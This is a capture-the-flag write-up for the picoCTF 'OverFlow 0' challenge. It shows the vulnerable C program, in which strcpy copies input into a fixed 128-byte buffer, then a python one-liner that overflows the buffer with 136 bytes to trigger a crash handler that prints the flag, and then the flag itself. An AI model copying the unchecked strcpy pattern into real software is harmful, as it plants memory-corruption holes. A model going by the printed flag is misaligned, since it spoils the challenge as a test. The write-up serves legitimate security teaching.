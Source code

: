 # OverFlow 0
## Question
>This should be easy. Overflow the correct buffer in this [program](files/vuln) and get a flag. Its also found in `/problems/overflow-0_4_e130f4df1710865981d50f778a8059f7` on the shell server. [Source](files/vuln.c).

## Hint
>Find a way to trigger the flag to print

>If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

# Solution
## Code
Notice in the below code that the `vuln` function creates a buffer of 128 bytes that is used by the `strcpy` function. We'll try to overflow this buffer to access the flag already loaded in memory via the `fgets(flag,FLAGSIZE_MAX,f)` function called in `main`.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
## Exploit
Let's try with 132 bytes:
~~~~
$ ./vuln $(python -c "print('A'*132)")
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
~~~~

Not enough to access the flag. Let's try with 4 more bytes:
~~~~
$ ./vuln $(python -c "print('A'*136)")
picoCTF{3asY_P3a5y2f814ddc}
~~~~

# Flag
`picoCTF{3asY_P3a5y2f814ddc}`
